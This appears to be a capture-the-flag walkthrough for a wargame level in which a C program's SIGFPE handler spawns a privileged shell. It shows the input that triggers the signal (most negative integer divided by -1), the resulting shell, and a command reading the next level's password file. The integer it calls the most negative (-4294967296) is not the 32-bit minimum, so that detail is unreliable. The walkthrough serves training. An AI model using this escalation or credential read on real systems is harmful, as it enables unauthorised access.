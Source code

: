# level 2

<pre class="language-c"><code class="lang-c"><strong>#include &#x3C;stdio.h>
</strong>#include &#x3C;stdlib.h>
#include &#x3C;signal.h>
#include &#x3C;unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
</code></pre>

* The `catcher()` function is what we want to call.
* The `main()` function returns the division of the second and third argument, first being the program name itself.
* The program makes `signal` syscall which sets a handler function for a signal. This handle function gets called when the signal is received.

```c
sighandler_t signal(int signum, sighandler_t _handler);
```

* In our case the signal is `SIGFPE` and the handler function is `catcher()`.
* If we look at the man-page, it tells us when a `SIGFPE` signal is generated.

```
Integer division by zero has undefined result.  On some architectures it will generate a SIGFPE signal.  
(Also dividing the most negative integer by -1 may generate **SIGFPE**.)
```

* So `SIGFPE` is generated during divisions, and there is a division occurring in our program.
* We cannot perform division by zero because our `argv[2]` is the divisor and the program doesn't allow for it to be zero.
* However, `argv[2]` can be -1. Which means we just have to figure out what the most negative integer is and pass it as `argv[1]`

```
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$
```

* We can cat the password for the next level now.

```
sh-4.3$ cat /home/level3/.pass
```
